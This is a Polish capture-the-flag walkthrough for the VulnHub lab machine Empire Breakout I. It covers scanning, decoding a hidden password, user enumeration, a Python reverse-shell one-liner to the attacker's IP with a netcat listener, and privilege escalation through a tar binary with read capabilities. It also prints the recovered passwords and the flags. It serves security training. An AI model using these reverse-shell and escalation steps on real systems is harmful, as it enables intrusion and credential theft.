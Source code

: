 # **CTF - Empire Breakout I**

`Autor: adi7312`

**Poziom trudności**: Łatwy


**Link do maszyny**: [Empire Breakout I](https://www.vulnhub.com/entry/empire-breakout,751/).



**Spis treści:**
- [**CTF - Empire Breakout**](#ctf---empire-breakout)
  - [**Skanowanie sieci**](#skanowanie-sieci)
  - [**Skanowanie portów**](#skanowanie-portów)
  - [**Identyfikacja podatności**](#identyfikacja-podatności)
  - [**Poszukiwanie flagi użytkownika**](#poszukiwanie-flagi-użytkownika)
  - [**Eskalacja uprawnień i zdobycie drugiej flagi**](#eskalacja-uprawnień-i-zdobycie-drugiej-flagi)



## **Skanowanie sieci**

**Cel**: Znalezienie adresu IP sieci oraz IP podatnej maszyny.

Korzystamy z polecenia:

    ifconfig

Adres IP Kali Linuxa to 192.168.138.132, a maska sieci to 255.255.255.0 (/24), zatem adresem sieci jest 192.168.138.0/24, korzystamy z tej informacji i uruchamiamy netdiscover poleceniem:

    sudo netdiscover -r 192.168.138.0/24
Otrzymujemy 4 wyniki, z czego 192.168.138.138 to adres IP maszyny **Empire Breakout**


![](p/1.png)


## **Skanowanie portów**

**Cel**: Dowiedzieć się na jakich portach działa host **Empire Breakout**, dokonać wykrycia usług tych hostów oraz zidentyfikować system operacyjny.

Uruchomiamy narzędzie nmap, z poniższymi opcjami:
* **-sV** - w celu identyfikacji wersji usług hosta
* **-O** - w celu identyfikacji systemu operacyjnego


![](p/2.png)


Host działa na 5 portach, uwagę przykuwa **Samba** która była w przeszłości dosyć podatna, jednak po sprawdzeniu okazuje się że obecna na **Empire Breakout** wersja jest bezpieczena, więc szukamy podatności gdzie indziej.


## **Identyfikacja podatności**

**Cel**: Identyfikacja podatności

Nastepnie robimy skanowanie podatności, korzystamy z narzędzia OpenVas. Okazuje się że nasza maszyna ma bardzo dużo podatności związanych z **webmin**, a *severity* maszyny określono na aż 9.8 punkta.

## **Poszukiwanie flagi użytkownika**

**Cel**: Zdobycie pierwszej flagi

![](p/3.png)


Wchodzimy na stronę *192.168.138.138* jednak znajduje się tam domyślna strona *Apache*, jednak mimo to zajrzymy do kodu źródłowego. Okazuje się że na dole znajduje się zaszyfrowana jakaś treści, najprawdpodobniej hasło.


![](p/4.png)


Hasło jest "zaszyfrowane" w języku programowania *brainfuck*, korzystamy z internetowego interpretera tego języka, odszyfrowane hasło to:

    .2uqPEfj3D<P’a-3


Na tej stronie nic więcej nie zrobimy, ale może spróbujmy wejść na to samo IP ale na port 20000, tzn. wpisujemy w przeglądarke (UWAGA! Należy skorzystać z https a nie http):


    https://192.168.138.138:20000/


Pokazuje nam się okno logowania, znamy hasło, jednak nie znamy username. Zatem będziemy musieli dokonać enumeracji użytkowników. Z tym problemem równiez poradzimy sobie, skorzystamy z narzędzia *enum4linux*. Korzystamy więc z polecenia:


    sudo enum4linux 192.168.138.138

Output jest nieco długi i może być przytłaczający, jednak na uwagę zasługuje jeden użytkownik *cyber*.


![](p/5.png)


Spróbujmy zatem zalogować się przy pomocy *cyber*, podajemy również pozyskane ostatnio hasło. Pomyślnie zalogowaliśmy się. Następnie tworzymy web shella (zakładka usermin, na dole znajduje się symbol konsolki), który pozwali nam wykonanie *reverse shell'a* przy pomocy Pythona. 

Na początku jednak uruchamiamy terminal na naszym *Kali Linux* i wpisujemy polecenie:

    sudo nc -lvnp 1234

Robimy to w celu nasłuchiwania aktywności na porcie 1234 oraz żebyśmy mogli wykorzystać nasz shell wywołany przez Pythona.

Wpisujemy w konsoli polecenie (w tej webowej):

    python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.138.132",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); import pty; pty.spawn("/bin/sh")'


Teraz na terminalu gdzie odpalaliśmy polecenie `sudo nc ...` powinien wywołać się *shell*. Pierwsze co sprwadzimy to zawartość katalogu w którym jesteśmy wpisujemy więc `ls`, widzimy plik *user.txt*, chcąc zobaczyć jego zawartość wpisujemy `cat user.txt`, w środku znajduje się pierwsza flaga.


![](p/6.png)


**`Pierwsza Flaga: 3mp!r3{You_Manage_To_Break_My_Secure_Access`**


## **Eskalacja uprawnień i zdobycie drugiej flagi**

**Cel**: Eskalacja uprawnień do roota oraz zdobycie ostatniej flagi.


Teraz musimy przejąć flagę *root'a*. Początkowo próbowaliśmy używać `uname -a` w celu poznania wersji Linuxa, i na tej podstawie próbowaliśmy ustalić czy z tą wersją istnieją jakieś podatności, jednak nic nie znaleźliśmy. Na trop naprowadziło nas polecenie:

    getcap -r / 2>/dev/null

Pomogło nam określić możliwości niektórych plików:


![](p/7.png)


*cap_dac_read_search=ep* oznacza że może skorzystać z tego narzędzia do oczytania każdych plików (nawet plików roota). Jednak zanim to zrobimy należy uruchomić nieco wygodniejszego shella:

    python3 -c ‘import pty;pty.spawn(“/bin/bash”)’

Wchdzimy teraz w katalog `/var/backups`, po użyciu polecenia `ls -la` możemy zobaczyć plik *.old_pass.bak* (którego oczywiście odczytac nie możemy bo nie mamy uprawnien roota), możemy na tym pliku użyć nasze znalezione wcześniej narzędzie, wracamy więc do katalogu `/home/cyber`. Wpisujemy polecenie:

    ./tar -cf password.tar /var/backups/.old_pass.bak

Stworzyliśmy archiwum *password.tar*, nastepnie poleceniem:

    tar -xf password.tar

Rozpakowuje zawartość (którą będziemy mogli już przeczytać jako user *cyber*), następnie odczytuję zawartość *.old_pass.bak*.


![](p/8.png)


**Znalezione hasło**: Ts&4&YurgtRX(=~h

Znalezione hasło wykorzystamy żeby przełączyć się z `cyber` na `roota`. Wpisujemy polecenie i podajemy hasło:

    su root

Następnie pozostało jedynie przejść do `/root` oraz odczytać flagę.


![](p/9.png)


**`Ostatnia Flaga: 3mp!r3{You_Manage_To_BreakOut_From_My_Secure_System_Congratulation}`**